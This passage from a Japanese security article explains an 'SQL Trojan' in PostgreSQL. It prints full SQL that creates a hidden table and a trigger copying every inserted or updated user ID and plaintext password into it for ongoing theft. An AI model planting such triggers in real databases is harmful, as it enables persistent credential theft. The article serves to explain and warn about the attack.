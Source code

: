 　このテーブルにはユーザのIDとパスワードが格納され、主にログインなどの機
能で利用されるものとする。passwordフィールドには暗号化あるいはハッシュ化
がおこなわれない、生のパスワードが格納されるものとする。

　例えばこのテーブルの中身は次のようになっている。

-----
hoge=# select * from tuser;
    id    | password
----------+----------
 Kanatoko | hogefuga
-----


■0x03.) 攻撃の例

　攻撃者はこのデータベースに対し、SQLインジェクションなどを用いて次の一連
のSQL文を実行する。

-----
create language plpgsql;

create table p0wn1ch1w4(
id text,
password text
);

create function foo() returns trigger as '
begin
  insert into p0wn1ch1w4 values( NEW.id, NEW.password );
  return new;
end;
' language 'plpgsql';

create trigger tg_foo before insert or update or delete on tuser
  for each row
  execute procedure foo();
-----

　まずcreate language文でこのデータベースでストアドプロシージャが作成でき
るようにする。続いてcreate table文で盗んだデータを格納するためのテーブル
を作成する（ポウンニチワ!）。

　create function文によってfooという関数が作られる。この関数はtuserテーブ
ルにトリガーとして組み込まれることになる。NEW.idとNEW.passwordはtuserが更
新される際の新しいレコードの各フィールドを表すもので、つまりtuserが更新さ
れるたびに新しいデータ（変更、あるいは追加されるもの）がポウンニチワテーブルにinse
rtされるのだ。

　最後のcreate trigger文によってこの悪意あるコードがトリガーとしてtuserテーブ
ルに組み込まれることになり、SQL Trojanの感染が完了する。

　攻撃者は一度侵入したデータベースにこのようなSQL Trojanを感染させておく
ことで、継続的にデータを盗み出すことが可能となる。この例では盗んだデータ
を取り出すためにはポウニチワテーブルにアクセスする必要があるが、実際のケースではファイルへ
の書き出しや名前解決などを利用したネットワーク経由での窃取が使用される可能性が
あるだろう。
